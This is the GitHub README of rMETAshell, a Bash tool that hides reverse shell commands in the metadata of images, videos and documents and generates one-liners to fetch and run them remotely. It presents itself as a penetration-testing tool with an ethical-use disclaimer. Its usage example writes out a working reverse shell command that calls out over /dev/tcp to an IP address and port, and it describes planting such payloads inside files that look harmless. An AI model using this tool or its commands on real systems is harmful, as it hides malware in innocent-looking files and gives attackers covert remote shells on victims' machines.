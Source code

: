 # rMETAshell
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 

<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!


# New!:

New one-liner execution methods!

Supports png, jpg, jpeg, jpe, jif, jfif, jfi, jp2, j2k, jpf, jpx, jp2a, j2c, tif, tiff, crw, cr2, dng, mrw, nef, pef, arw, rw2, sr2, srw, orf, png, gif, bmp, dib, ico, pgf, jp2, j2k, jpf, jpx, jp2a, j2c, avi, mov, qt, moov, f4v, mp4, m4a, m4b, m4p, m4v, mp4v, mqv, jp2, j2k, jpf, jpx, jp2a, j2c, mpg, mpeg, m2v, mpv, m2p, m1v, m1p, m4v, divx, xvid, txt, text, log, md, markdown, html, htm, xml, json, csv, tsv, sql, yml, yaml, ini, cfg, conf, properties, prop, props, bat, sh, bash, zsh, ps1, ps, py, python, rb, ruby, perl, pl, php, js, javascript, jsx, ts, typescript, java, c, cpp, h, cs, csharp, vb, vbnet, swift, kotlin, rust, go, groovy, scala, lua, r, sas, scss, sass, less, styl, sql, plsql, psql, tsql, vbs, vba, vbscript, powershell, ps1xml, psd1, psm1, tex, latex, ltx, bib, rtf, doc, docx, xls, xlsx, ppt, pptx and pdf injection!

# Description:

rMETAshell is a command-line tool for injecting a reverse shell command into the metadata and generating one-liner execution methods.

# How It Works:
rMETAshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Metadata-Based Shell Injection: Inject reverse shell commands into image, video, and text file metadata, ensuring seamless integration with target systems.

One-Liner Generation: Automatically generate one-liners for quick and efficient remote shell access. Choose from a variety of execution methods tailored to different file formats.

Supported File Formats: rMETAshell supports the following file formats for shell injection and one-liner generation:

Image Formats: JPEG, PNG, BMP, and more.
Video Formats: MP4, AVI, MKV, and others.
Text Formats: TXT, CSV, XML, and more.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rMETAshell
   ```

2. Change to the project directory:

   ```
   cd rMETAshell
   ```

3. Make the script executable:

   ```
   chmod +x rMETAshell.sh
   ```

## Usage

```
./rMETAshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rMETAshell.sh "/bin/sh -i >& /dev/tcp/192.168.1.128/4444 0>&1" image.jpg test.zip
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rMETAshell.

**Warning: Ethical and Responsible Use Only
rMETAshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
